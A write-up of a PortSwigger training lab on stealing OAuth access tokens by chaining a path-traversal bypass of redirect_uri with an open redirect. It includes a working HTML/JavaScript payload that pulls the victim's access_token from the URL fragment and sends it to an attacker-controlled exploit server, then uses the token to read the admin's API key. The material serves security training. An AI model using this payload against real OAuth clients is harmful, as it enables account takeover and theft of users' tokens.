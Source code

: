 # Stealing OAuth access tokens via an open redirect | Jan 7, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect), you'll learn: Stealing OAuth access tokens via an open redirect! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab uses an [OAuth](https://portswigger.net/web-security/oauth) service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

> Note
>  
> You cannot access the admin's API key by simply logging in to their account on the client application.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in via your own social media account using the following credentials: `wiener:peter`.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042231.png)

In here, we see a link called "My account".

Let's try to login by clicking that link:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042312.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042320.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042331.png)

As you can see, when we clicked on the "My account" link, it'll redirect us to login with a social account, which means this is an OAuth authentication.

In the `/auth` request, there are some parameters:

- `client_id`: `umg56k6htndwh95zhjmgd`
- `redirect_uri`: `https://0a0000b304ad9179c28dc70f00dd002d.web-security-academy.net/oauth-callback`
- `response_type`: `token`
- `nonce`: `-678410678`
- `scope`: `openid profile email`

The `response_type` parameter indicates that **it's using implicit grant type.**

Let's continue the OAuth flow:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042636.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042647.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042736.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042742.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107042759.png)

**As you can see, the `/me` GET request has the `apikey`.**

Armed with above information, we can try to modify the `redirect_uri` parameter to leak the `apikey`.

To do so, I'll log out, and send the `/auth` GET request to Burp Suite's Repeater. Then modify the `redirect_uri` parameter to the exploit server:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107043143.png)

Hmm... Looks like there are some whitelisted domain in `redirect_uri` parameter?

We can try to bypass it.

For example, using the `@`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107043305.png)

Nope.

How about parameter pollution?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107043406.png)

No luck.

It seems like we couldn't bypass it.

How about path traversal?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107043627.png)

We can!

However, we still couldn't leak the `apikey`. **We need to find another vulnerbility to do that, such as open redirect.**

After poking around the website, I found that in the home page, we can view different posts, and we can navigate to different posts:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107044425.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107044433.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107044448.png)

When we clicked the "Next post" link, **it'll send a GET request to `/post/next` with parameter `path`.**

Let's test for open redirect:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107044556.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107044610.png)

**It redirects me to any website! So it's vulnerable to open redirect.**

Armed with above information, **we can chain the `redirect_uri` parameter and open redirect vulnerability together!**

```
redirect_uri=https://0a0000b304ad9179c28dc70f00dd002d.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ab400c304dc91a2c26dc6f80184009b.exploit-server.net/log
```

**The above payload will set the `redirect_uri` parameter value to `/post/next`, with parameter `path`, and it's value is our exploit server. This allows us to extract the `access_token`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107045501.png)

**Then, we can use that `access_token` to send a GET requesto to `/me`, which will finally leak the `apikey`.**

Now, we can test the payload works or not:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107045742.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107045752.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107045801.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107045835.png)

It worked!

However, since the OAuth grant type is using implicit, we need to extract the `access_token` via the URL fragment.

**Now, we can craft a payload that extract victim's `access_token`:**
```html
<html>
    <head>
        <title>OAuth-4</title>
    </head>
    <body>
        <script>
            // Check the URL fragment exist or not
            if (document.location.hash == ''){
                // If not exist, redirect to the payload, so we can extract the access_token
                window.location.replace('https://oauth-0ada00a904369151c2bdc54b02480071.web-security-academy.net/auth?client_id=umg56k6htndwh95zhjmgd&redirect_uri=https://0a0000b304ad9179c28dc70f00dd002d.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ab400c304dc91a2c26dc6f80184009b.exploit-server.net/exploit&response_type=token&nonce=171654770&scope=openid%20profile%20email');
            } else {
                // Create a new object called urlSearchParams, which extract the URL fragment
                const urlSearchParams = new URLSearchParams(document.location.hash.substr(1));
                // Extract the access_token
                var token = urlSearchParams.get('access_token');

                // Redirect to /log with the access_token value
                window.location.replace('/log?access_token=' + token);
            };
        </script>
    </body>
</html>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107053312.png)

Exploit server access log:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107053348.png)

Nice! We got it!

**Finally, we can send a GET request to `/me`, with header `Authorization: Bearer <access_token>`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107053458.png)

Nice! Let's submit the `apikey`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107053524.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/OAuth-Authentication/OAuth-4/images/Pasted%20image%2020230107053531.png)

# What we've learned:

1. Stealing OAuth access tokens via an open redirect